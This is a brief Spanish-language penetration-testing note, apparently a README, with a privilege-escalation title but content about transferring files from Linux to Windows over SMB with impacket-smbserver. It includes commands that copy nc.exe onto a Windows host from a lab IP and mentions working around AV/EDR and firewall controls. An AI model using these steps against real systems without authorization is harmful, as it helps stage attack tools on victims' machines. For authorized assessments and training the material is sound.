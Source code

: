 # Escalación de Privilegios en Windows

## Descripción
Comprender diferentes formas de realizar transferencias de archivos y cómo funcionan las redes puede ayudarnos a lograr nuestros objetivos durante una evaluación. Debemos ser conscientes de los controles del host que pueden impedir nuestras acciones, como la inclusión en listas blancas de aplicaciones o el bloqueo AV/EDR de aplicaciones o actividades específicas. Las transferencias de archivos también se ven afectadas por dispositivos de red como Firewalls, IDS o IPS que pueden monitorear o bloquear puertos particulares u operaciones poco comunes.

### Linux - Windows (smb no autenticado)

```python
sudo impacket-smbserver share -smb2support /tmp/smbshare (Linux)
copy \\192.168.220.133\share\nc.exe (windows)
```

### Linux - Windows (smb con autentificación)

```python
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test (Linux)
net use n: \\192.168.220.133\share /user:test test (windows)
```
